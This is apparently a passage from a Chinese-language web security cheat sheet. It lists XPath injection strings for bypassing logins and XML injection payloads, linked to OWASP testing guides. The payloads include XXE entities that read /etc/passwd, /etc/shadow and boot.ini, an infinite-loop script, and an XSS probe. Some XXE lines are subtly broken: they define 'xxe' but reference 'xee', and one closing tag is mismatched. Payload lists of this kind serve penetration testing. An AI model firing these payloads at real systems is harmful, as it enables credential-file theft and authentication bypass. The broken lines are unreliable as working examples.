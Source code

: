 XPATH注入详情请见: [XPATH注入测试](https://www.owasp.org/index.php/Testing_for_XPath_Injection_%28OWASP-DV-010%29)

```
 '+or+'1'='1
 '+or+''='
 x'+or+1=1+or+'x'='y
 /
 //
 //*
 */*
 @*
 count(/child::node())
 x'+or+name()='username'+or+'x'='y
```

### XML注入

XML注入详情请见: [XML注入](https://www.owasp.org/index.php/Testing_for_XML_Injection_%28OWASP-DV-008%29)

```
 <![CDATA[<script>var n=0;while(true){n++;}</script>]]>
 <?xml version="1.0" encoding="ISO-8859-1"?><foo><![CDATA[<]]>SCRIPT<![CDATA[>]]>alert('gotcha');<![CDATA[<]]>/SCRIPT<![CDATA[>]]></foo>
 <?xml version="1.0" encoding="ISO-8859-1"?><foo><![CDATA[' or 1=1 or ''=']]></foof>
 <?xml version="1.0" encoding="ISO-8859-1"?><!DOCTYPE foo [<!ELEMENT foo ANY><!ENTITY xxe SYSTEM "file://c:/boot.ini">]><foo>&xee;</foo>
 <?xml version="1.0" encoding="ISO-8859-1"?><!DOCTYPE foo [<!ELEMENT foo ANY><!ENTITY xxe SYSTEM "file:///etc/passwd">]><foo>&xee;</foo>
 <?xml version="1.0" encoding="ISO-8859-1"?><!DOCTYPE foo [<!ELEMENT foo ANY><!ENTITY xxe SYSTEM "file:///etc/shadow">]><foo>&xee;</foo>
 <?xml version="1.0" encoding="ISO-8859-1"?><!DOCTYPE foo [<!ELEMENT foo ANY><!ENTITY xxe SYSTEM "file:///dev/random">]><foo>&xee;</foo>
```
